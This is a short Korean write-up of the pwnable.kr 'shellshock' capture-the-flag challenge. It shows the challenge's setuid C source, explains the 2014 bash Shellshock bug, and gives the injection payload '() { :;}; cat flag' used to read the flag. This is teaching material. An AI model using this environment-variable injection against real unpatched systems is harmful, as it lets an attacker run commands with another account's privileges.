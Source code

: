 ```yaml
---
sort: 10
---
```


# shellshock

home 디렉토리에 있는 shellshock.c 파일을 통해 소스코드를 볼 수 있다.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

home 디렉토리에있는 bash를 실행시키는 것이 끝이다.<br>
문제 이름에서 대놓고 shellshock 버그를 쓰라고 알려준다.<br><br>
shellshock버그는 2014년에 발견된 bash에 존재하는 버그로, 아래와 같이 환경변수를 입력하면 단지 환경변수일 뿐인데 문자열로써 인식이 되는 것이 아니라 명령어로써 인식이 되어 실행이 되는 버그다.

```bash
export shellshock='() { :;}; 삽입명령어'
```

물론 2014년 취약점이기 때문에 지금 pwnable.kr 서버에서 사용하고있는 bash에서는 해당 취약점이 절대로 안먹힌다.

```bash
shellshock@pwnable:~$ export shellshock='() { :;}; cat flag'
shellshock@pwnable:~$ ./shellshock
```

```tip
## 알게 된 점

shellshock
```